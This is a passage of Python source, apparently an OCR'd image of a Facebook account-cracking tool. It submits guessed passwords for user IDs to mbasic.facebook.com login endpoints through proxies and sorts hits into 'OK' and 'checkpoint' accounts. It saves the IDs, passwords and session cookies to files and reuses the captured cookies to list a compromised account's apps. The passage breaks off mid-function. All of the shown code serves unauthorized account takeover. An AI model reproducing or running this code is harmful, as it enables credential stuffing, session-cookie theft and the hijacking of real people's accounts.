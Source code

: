 			ses.headers.update({'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://mbasic.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'fr_FR,fr;q=0.9,en-US;q=0.8,en;q=0.7','connection': 'close'}
			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				if 'ya' in oprek:
					akun.append(idf+'|'+pw)
					ceker(idf,pw)
				elif 'ya' in princp:
					print('\n')
					statuscp = f'[â€¢] ID       : {idf} [â€¢] PASSWORD : {pw}'
					statuscp1 = nel(statuscp, style='red')
					cetak(nel(statuscp1, title='AOREC-XD CP'))
					open('/sdcard/4MBF-DATA/CP/'+cpc,'a').write(idf+'|'+pw+'\n')
					akun.append(idf+'|'+pw)
					cp+=1
				else:continue
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				headapp={"user-agent":"SupportsFresco=1 Dalvik/2.1.0 (Linux; U; Android 6.0.1; SM-J210F Build/MMB29Q) Source/1 [FBAN/EMA;UNITY_PACKAGE/342;FBBV/107586706;FBAV/172.0.0.8.182;FBDV/SM-J210F;FBLC/id_ID;FBOP/20]"}
				if 'no' in taplikasi:
					coki=po.cookies.get_dict()
					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
					open('/sdcard/4MBF-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
					print('\n')
					statusok = f'[â€¢] ID       : {idf}\n[â€¢] PASSWORD : {pw}\n[â€¢] COOKIES  : {kuki}'
					statusok1 = nel(statusok, style='green')
					cetak(nel(statusok1, title='OK'))
					ok+=1
					break
				elif 'ya' in taplikasi:
					coki=po.cookies.get_dict()
					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
					open('/sdcard/4MBF-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
					user=idf
					infoakun = ""
					session = requests.Session()
					cek2 = session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies=coki,headers=headapp).text
					cek =session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies=coki,headers=headapp).text
					infoakun += (f"\n[bold cyan][â€¢] LIST ACTIVE APPLICATIONS :[/bold cyan] \n")